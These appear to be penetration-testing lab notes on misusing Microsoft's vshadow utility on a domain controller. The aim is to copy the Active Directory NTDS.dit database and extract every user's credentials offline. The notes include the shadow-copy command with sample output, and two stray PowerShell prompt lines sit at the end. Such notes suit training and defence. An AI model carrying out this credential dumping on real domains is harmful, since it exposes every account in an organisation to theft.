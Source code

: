 ### Shadow Copies
A _Shadow Copy_, also known as _Volume Shadow Service_ (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes
+ To manage volume shadow copies, the Microsoft signed binary _vshadow.exe_ is offered as part of the Windows SDK

As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database **NTDS.dit** database file
+ Once we've obtained a copy of said database, we can extract every user credential offline on our local Kali machine

To start off, we'll connect as the _jeffadmin_ domain admin user to the DC1 domain controller and launch from an elevated prompt the **vshadow** utility with **-nw** options to disable writers, which speeds up backup creation and include the **-p** option to store the copy on disk:
```
vshadow.exe -nw -p  C:
```
+ Example output:
```
VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential


Snapshot creation done.
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname